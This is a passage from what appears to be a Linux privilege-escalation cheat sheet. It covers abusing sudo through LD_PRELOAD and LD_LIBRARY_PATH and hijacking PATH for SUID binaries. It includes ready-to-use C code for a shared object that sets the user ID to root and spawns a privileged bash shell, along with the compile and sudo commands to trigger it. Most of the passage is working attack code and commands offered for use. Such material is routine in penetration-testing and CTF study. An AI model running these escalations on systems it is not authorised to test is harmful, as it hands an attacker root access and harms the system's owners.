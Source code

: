If you find a non-standard SUID/SGID binary, see below for abusing file paths.

### Exploiting dependencies
#### SUDO
If you can run any programs with sudo, you can try to abuse `LD_PRELOAD` and `LD_LIBRARY_PATH`. `LD_PRELOAD` loads a shared object before any others when a program is run. `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

**Abuse `LD_PRELOAD`**
```bash
# Step 1: create preload.c with shell-opening code
cat > preload.c <<EOF
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
EOF

# step 2: compile it into a shared object
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/sudo/preload.c

# step 3: sudo run program with shared object
sudo LD_PRELOAD=/tmp/preload.so program
```

**Abuse `LD_LIBRARY_PATH`**
```bash
# Step 1: check used shared libs
ldd /usr/sbin/apache2

# Step 2: create a shared object with the same name 
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

# Step 3: run program and set load location to controlled directory
sudo LD_LIBRARY_PATH=/tmp apache2
```

#### SUID/SGID File paths

For non-standard executables that you have SUID/SGID permissions on, try grepping the strings or use strace to see what binaries are called. You may be able to trick the executable into running your exploit by confusing file paths.

> TIP 1: If the full path is not specified, try writing an executable in the current directory and export PATH to abuse precedence. 

Example: `/usr/local/bin/suid-env` starts an apache server via `service apache2 start` without specifying the full path of executable `service`
Exploit:  compile our own `service` executable and prepend the PATH variable with the current directory to hijack the accessed env: `PATH=.:$PATH /usr/local/bin/suid-env`
